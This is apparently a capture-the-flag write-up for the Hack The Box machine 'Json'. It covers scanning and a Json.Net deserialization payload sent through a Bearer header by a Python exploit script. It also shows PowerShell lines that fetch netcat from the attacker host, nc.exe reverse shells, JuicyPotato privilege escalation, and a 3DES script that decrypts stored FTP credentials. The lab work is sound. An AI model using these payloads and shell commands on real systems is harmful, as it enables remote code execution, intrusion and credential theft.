






# [MEDIUM] Json <br/>


## Enumeration
### NMAP

We have our nmap scan run the following:

```bash

nmap -sV -sC -A -v 10.10.10.158 -p 1-10000

```

Then here is the result:

```bash
Host is up (0.28s latency).
Not shown: 9976 closed ports
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp   open     http          Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1894/tcp filtered o2server-port
2465/tcp filtered lbm
2608/tcp filtered wag-service
2923/tcp filtered wta-wsp-wtp-s
3228/tcp filtered dwmsgserver
3942/tcp filtered srdp
4110/tcp filtered g2tag
4939/tcp filtered unknown
5636/tcp filtered sfm-db-server
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6175/tcp filtered unknown
6822/tcp filtered unknown
6966/tcp filtered swispol
7271/tcp filtered unknown
8079/tcp filtered unknown
8225/tcp filtered unknown
8291/tcp filtered unknown
8337/tcp filtered unknown
9310/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=2/15%OT=21%CT=1%CU=36910%PV=Y%DS=2%DC=T%G=Y%TM=5E477E0
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=
OS:7)SEQ(SP=105%GCD=1%ISR=109%TS=7)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54
OS:DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%
OS:W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC
OS:=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=
OS:S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF
OS:=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.001 days (since Sat Feb 15 00:11:51 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h11m00s, deviation: 0s, median: 4h11m00s
| nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:cc:4d (VMware)
| Names:
|   JSON<00>             Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  JSON<20>             Flags: <unique><active>
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-02-15T09:24:44
|_  start_date: 2020-02-15T09:23:08

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   328.88 ms 10.10.14.1
2   332.69 ms 10.10.10.158

NSE: Script Post-scanning.
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 417.37 seconds
           Raw packets sent: 13749 (609.592KB) | Rcvd: 12330 (696.519KB)

```


Important services:<br />
FTP - port 21
HTTP - port 80
RPC - port 135
Netbios-ssn - port 139
SMB - port 445
HTTP (Winrm service) - port 5985 
<br />

### FTP Anonymous Login<br>

Checking FTP if we can login as anonymous user:

```bash
root@kali:~/CTFs/HTB/Json# ftp 10.10.10.158
Connected to 10.10.10.158.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.158:root): anonymous
331 Password required for anonymous
Password:
530 Login or password incorrect!
Login failed.
Remote system type is UNIX.
ftp>
```
We can't login as anonymous
<br />

### Web Service Enumeration<br>

Checking the page served at port 80:


<br>
Quick check for "admin"/"admin" username/password to see if it works.


It worked as it opens up a dashboard. However, upon further inspection of the links on the dashboard, most of it are dead. 
<br>

Checking the page source, we can see there is a javascript file called ```app.min.js```. Below are also its contents


<br />

And here is its content:
```javascript
var _0xd18f = ["\x70\x72\x69\x6E\x63\x69\x70\x61\x6C\x43\x6F\x6E\x74\x72\x6F\x6C\x6C\x65\x72", "\x24\x68\x74\x74\x70", "\x24\x73\x63\x6F\x70\x65", "\x24\x63\x6F\x6F\x6B\x69\x65\x73", "\x4F\x41\x75\x74\x68\x32", "\x67\x65\x74", "\x55\x73\x65\x72\x4E\x61\x6D\x65", "\x4E\x61\x6D\x65", "\x64\x61\x74\x61", "\x72\x65\x6D\x6F\x76\x65", "\x68\x72\x65\x66", "\x6C\x6F\x63\x61\x74\x69\x6F\x6E", "\x6C\x6F\x67\x69\x6E\x2E\x68\x74\x6D\x6C", "\x74\x68\x65\x6E", "\x2F\x61\x70\x69\x2F\x41\x63\x63\x6F\x75\x6E\x74\x2F", "\x63\x6F\x6E\x74\x72\x6F\x6C\x6C\x65\x72", "\x6C\x6F\x67\x69\x6E\x43\x6F\x6E\x74\x72\x6F\x6C\x6C\x65\x72", "\x63\x72\x65\x64\x65\x6E\x74\x69\x61\x6C\x73", "", "\x65\x72\x72\x6F\x72", "\x69\x6E\x64\x65\x78\x2E\x68\x74\x6D\x6C", "\x6C\x6F\x67\x69\x6E", "\x6D\x65\x73\x73\x61\x67\x65", "\x49\x6E\x76\x61\x6C\x69\x64\x20\x43\x72\x65\x64\x65\x6E\x74\x69\x61\x6C\x73\x2E", "\x73\x68\x6F\x77", "\x6C\x6F\x67", "\x2F\x61\x70\x69\x2F\x74\x6F\x6B\x65\x6E", "\x70\x6F\x73\x74", "\x6A\x73\x6F\x6E", "\x6E\x67\x43\x6F\x6F\x6B\x69\x65\x73", "\x6D\x6F\x64\x75\x6C\x65"]; angular[_0xd18f[30]](_0xd18f[28], [_0xd18f[29]])[_0xd18f[15]](_0xd18f[16], [_0xd18f[1], _0xd18f[2], _0xd18f[3], function (_0x30f6x1, _0x30f6x2, _0x30f6x3) { _0x30f6x2[_0xd18f[17]] = { UserName: _0xd18f[18], Password: _0xd18f[18] }; _0x30f6x2[_0xd18f[19]] = { message: _0xd18f[18], show: false }; var _0x30f6x4 = _0x30f6x3[_0xd18f[5]](_0xd18f[4]); if (_0x30f6x4) { window[_0xd18f[11]][_0xd18f[10]] = _0xd18f[20] }; _0x30f6x2[_0xd18f[21]] = function () { _0x30f6x1[_0xd18f[27]](_0xd18f[26], _0x30f6x2[_0xd18f[17]])[_0xd18f[13]](function (_0x30f6x5) { window[_0xd18f[11]][_0xd18f[10]] = _0xd18f[20] }, function (_0x30f6x6) { _0x30f6x2[_0xd18f[19]][_0xd18f[22]] = _0xd18f[23]; _0x30f6x2[_0xd18f[19]][_0xd18f[24]] = true; console[_0xd18f[25]](_0x30f6x6) }) } }])[_0xd18f[15]](_0xd18f[0], [_0xd18f[1], _0xd18f[2], _0xd18f[3], function (_0x30f6x1, _0x30f6x2, _0x30f6x3) { var _0x30f6x4 = _0x30f6x3[_0xd18f[5]](_0xd18f[4]); if (_0x30f6x4) { _0x30f6x1[_0xd18f[5]](_0xd18f[14], { headers: { "\x42\x65\x61\x72\x65\x72": _0x30f6x4 } })[_0xd18f[13]](function (_0x30f6x5) { _0x30f6x2[_0xd18f[6]] = _0x30f6x5[_0xd18f[8]][_0xd18f[7]] }, function (_0x30f6x6) { _0x30f6x3[_0xd18f[9]](_0xd18f[4]); window[_0xd18f[11]][_0xd18f[10]] = _0xd18f[12] }) } else { window[_0xd18f[11]][_0xd18f[10]] = _0xd18f[12] } }])

```
<br>

Since it's hard to read it this way, we can fix this by feeding it to a [javascript code beautifier](https://beautifier.io/).

```javascript
angular['module']('json', ['ngCookies'])['controller']('loginController', ['$http', '$scope', '$cookies', function(_0x30f6x1, _0x30f6x2, _0x30f6x3) {
    _0x30f6x2['credentials'] = {
        UserName: '',
        Password: ''
    };
    _0x30f6x2['error'] = {
        message: '',
        show: false
    };
    var _0x30f6x4 = _0x30f6x3['get']('OAuth2');
    if (_0x30f6x4) {
        window['location']['href'] = 'index.html'
    };
    _0x30f6x2['login'] = function() {
        _0x30f6x1['post']('/api/token', _0x30f6x2['credentials'])['then'](function(_0x30f6x5) {
            window['location']['href'] = 'index.html'
        }, function(_0x30f6x6) {
            _0x30f6x2['error']['message'] = 'Invalid Credentials.';
            _0x30f6x2['error']['show'] = true;
            console['log'](_0x30f6x6)
        })
    }
}])['controller']('principalController', ['$http', '$scope', '$cookies', function(_0x30f6x1, _0x30f6x2, _0x30f6x3) {
    var _0x30f6x4 = _0x30f6x3['get']('OAuth2');
    if (_0x30f6x4) {
        _0x30f6x1['get']('/api/Account/', {
            headers: {
                "\x42\x65\x61\x72\x65\x72": _0x30f6x4
            }
        })['then'](function(_0x30f6x5) {
            _0x30f6x2['UserName'] = _0x30f6x5['data']['Name']
        }, function(_0x30f6x6) {
            _0x30f6x3['remove']('OAuth2');
            window['location']['href'] = 'login.html'
        })
    } else {
        window['location']['href'] = 'login.html'
    }
}])
```
<br>
There are two links we can see:
- ```/api/token``` at line 15
- ```/api/Account``` at line 26

<br>

The ```/api/token``` accepts ```POST``` requests with data parameters ```UserName``` and ```Password``` while ```/api/Account``` accepts ```GET``` requests whereas it has additional header called ```Bearer``` (decoded bytecode from line 28). 

<br>
Accessing those links with curl will give these results:
- Result at ```/api/token``` curl

```bash
root@kali:~/CTFs/HTB/Json# curl http://10.10.10.158/api/token -H "Content-Type: application/json" --data "{'Username' : 'admin', 'Password' : 'admin'}" -v
*   Trying 10.10.10.158:80...
* TCP_NODELAY set
* Connected to 10.10.10.158 (10.10.10.158) port 80 (#0)
> POST /api/token HTTP/1.1
> Host: 10.10.10.158
> User-Agent: curl/7.66.0
> Accept: */*
> Content-Type: application/json
> Content-Length: 44
> 
* upload completely sent off: 44 out of 44 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 202 Accepted
< Cache-Control: no-cache
< Pragma: no-cache
< Expires: -1
< Server: Microsoft-IIS/8.5
< X-AspNet-Version: 4.0.30319
* Added cookie OAuth2="eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=" for domain 10.10.10.158, path /, expire 1582073958
< Set-Cookie: OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=; expires=Wed, 19-Feb-2020 00:59:18 GMT; path=/
< X-Powered-By: ASP.NET
< Date: Wed, 19 Feb 2020 00:57:18 GMT
< Content-Length: 0
< 
```
<br>
will set a cookie which is a base64 JSON of user info. We can see from the result above on Set-Cookie. When the base64 is decoded, the result is below.

```JSON
{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```
<br>
There is nothing really new in there. Even the password hash is also just "admin".

<br>

- Result at ```/api/Account``` curl. Since the ```Bearer``` header is for authentication, we just set its value from the value of the cookie given by ```/api/token```.

```bash
root@kali:~/CTFs/HTB/Json# curl http://10.10.10.158/api/Account -H "Content-Type: application/json" -v -H "Bearer: eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0="; echo;
*   Trying 10.10.10.158:80...
* TCP_NODELAY set
* Connected to 10.10.10.158 (10.10.10.158) port 80 (#0)
> GET /api/Account HTTP/1.1
> Host: 10.10.10.158
> User-Agent: curl/7.66.0
> Accept: */*
> Content-Type: application/json
> Bearer: eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Cache-Control: no-cache
< Pragma: no-cache
< Content-Type: application/json; charset=utf-8
< Expires: -1
< Server: Microsoft-IIS/8.5
< X-AspNet-Version: 4.0.30319
< X-Powered-By: ASP.NET
< Date: Wed, 19 Feb 2020 01:06:57 GMT
< Content-Length: 119
< 
* Connection #0 to host 10.10.10.158 left intact
{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```

<br>
However, the result is also the JSON received earlier but only in decoded base64 form.


## Web Service Exploitation. (Deserialization Exploit)
However, a malformed json being sent to the server either via two of those links will return an error. 

It means that the deserialization of the data is mishandled and can be a vulnerability. We can check this with a tool called [ysoserial.net](https://github.com/pwntester/ysoserial.net).
<br>

Going to a windows machine. After copying and running the ysoserial.exe file in a windows machine using the command:
```bash
.\ysoserial.net -f Json.Net -g ObjectDataProvider -c "cmd /c ping 10.10.14.87"

```
It will give us this payload:

```JSON
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c ping 10.10.14.87']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
Copying the payload and save it to our Kali Linux box as payload.txt


<br>
### Targeting : /api/token

We setup an icmp sniffer:
```
tcpdump -i tun0 icmp
```
and then we attack. If our payload succeeds, our icmp sniffer should be accepting icmp packets.

```bash
curl http://10.10.10.158/api/token -H "Content-Type: application/json" --data "$(cat payload.txt)"
```
However, this attack only made the server return an error and the server did not execute the ping command.
<br>
### Targeting : /api/Account
```bash
curl http://10.10.10.158/api/Account -H "Content-Type: application/json" -H "Bearer: $(cat payload.txt | base64 -w 0)"
```
This attack made our ping command executed!



With this, I created a python script that inputs our command so our payload will be flexible.

New payload - payload_flex.txt:
```JSON
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['%s', '%s']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
<br>
And our python exploit - json_exploit.py

```python
import requests
import base64

with open("payload_flex.txt","r") as rf:

	contents = rf.read()

#token = base64.b64encode(contents).decode()
#print(tokena)

while True:

	useri = input("Command: ")
	useri = useri.split(",")

	to_send = contents % (useri[0], useri[1])
	to_send = to_send.encode()	

	token = base64.b64encode(to_send)
	sess = requests.Session()

	print(type(token))

	headers = {
		'Content-Type' : 'application/json',
		'Application' : 'application/json',
		'Bearer' : token
	}

	page = sess.get('http://10.10.10.158/api/Account',headers=headers)

print(page.text)

```

### Spawning a Shell

To spawn a shell wth this, we can upload [netcat executable for windows](https://eternallybored.org/misc/netcat/) then execute netcat exe with the python script with powershell or cmd execution.
<br>
Let's first setup http server that contains the netcat executable. I used python3 http.server module. Execute the following.
```bash
python3 json_exploit.py
```
<br>
And when the python script asks for its command, enter the following:
```bash
powershell.exe, /c invoke-webrequest http://10.10.14.87:8000/nc64.exe -outfile c:\\Windows\\Temp\\nc.exe
```


<br>
After the netcat is uploaded, enter the following to the python script:
```Bash
powershell.exe, /c c:\\Windows\\Temp\\nc.exe 10.10.14.87 4444 -e "cmd.exe'
```
 NOTE:
If "powershell.exe" is used immediately, the server doesn't spawn a shell.

<br>
We successfuly spawned a shell with "userpool" as our user!


<br>

## User Flag
We can just go to ```C:\Users\userpool\Desktop\``` to get our user flag.


## Privilege Escalation
<br>

There are two ways of getting root:

## Method 1

### Enumeration

We can check the privileges of our user. It's stated that SeImpersonatePrivilege is enabled thus we can use an exploit that uses this setting to escalate to NT AUTHORITY\SYSTEM
To check privileges:
```cmd
whoami /priv
```


Windows 2019 and Windows 10 1809 are unaffected by this but the version of Windows of the server is of earlier version.
To check system information:
```cmd
systeminfo
```


### JuicyPotato Exploitation
We can use the [JuicyPotato exploit](https://github.com/ohpe/juicy-potato/) to exploit this setting.<br>

It's also needed that a correct CLSID is selected in order for this to work. The list of CLSID I used for this version of windows is [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter)
The CLSID I used is this:


<br>

By using the same exploit python script, upload the executable to the server.

```Bash
Command: powershell.exe, /c invoke-webrequest http://10.10.14.87:8000/JuicyPotato.exe -outfile c:\\Windows\\Temp\\service.exe
```
<br>
After uploading the executable, set up another netcat in the attacking machine and execute the following at the current shell in the server.
```Bash
c:\Windows\Temp>.\service.exe -l 3333 -p c:\Windows\System32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c c:\Windows\Temp\nc.exe 10.10.14.87 4445 -e cmd.exe"
```
<br>
After the netcat receives the connection, we are connected as ```NT AUTHORITY\SYSTEM``` on the server. We also should be able to get the root flag.


<br>

## Method 2

### Enumeration
If we go to C:\Program Files, there is a folder called "Sync2Ftp" and here is its contents:


<br>
After retrieving the two files, it can now be checked that the executable is .NET executable 


while the config contains encrypted username, password, and a key.
<br>

```xml
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>
</configuration>
```
<br>

### Reversing the .NET executable
To reverse or decompile the .NET executable, [dotPeek](https://www.jetbrains.com/decompiler/) is used. After reversing, there is a Encrypt() and Decrypt() function on the decompiled code.


Focusing on the Decrypt() function, it's stated that it used 3DES-ECB as the encryption algorithm. A little problem is that it has ```useHashing``` variable that decides whether or not to hash the key. 


### Decrypting username and password
Here's the written python script to decrypt the username and password.
```python
from Crypto.Cipher import DES3
import base64
import hashlib

username = "4as8gqENn26uTs9srvQLyg=="
password = "oQ5iORgUrswNRsJKH9VaCw=="
key = "_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"

'''
Notice that key is not lenth 16 or 24, so
it needs to be hashed using MD5 hash algo.
It is also indicated in the reversed .NET executable.
That's what also probably the useHashing 
variable used for.
'''

hh = hashlib.new('md5')
hh.update(key.encode('utf-8'))
hashed_key = bytes.fromhex(hh.hexdigest())

username = base64.b64decode(username)
password = base64.b64decode(password)

des3_cipher = DES3.new(hashed_key, DES3.MODE_ECB)

print("[+] USER: {}".format(des3_cipher.decrypt(username)))
print("[+] PASS: {}".format(des3_cipher.decrypt(password)))
```
<br>
And the output of python script is:
```bash
[+] USER: b'superadmin\x06\x06\x06\x06\x06\x06'
[+] PASS: b'funnyhtb\x08\x08\x08\x08\x08\x08\x08\x08'
########
USER: superadmin
PASS: funnyhtb
```
<br>
### FTP Login
Since it is said to "Sync" with FTP, use the credentials first to FTP.

<br>

The credentials worked! Notice also that the root.txt can also be downloaded.


However, the credentials might have worked for the FTP but it did not work on SMB or on Winrm so it's hard to say if the credentials can help spawn a shell of SYSTEM user.
<br>
Thank you for reading.


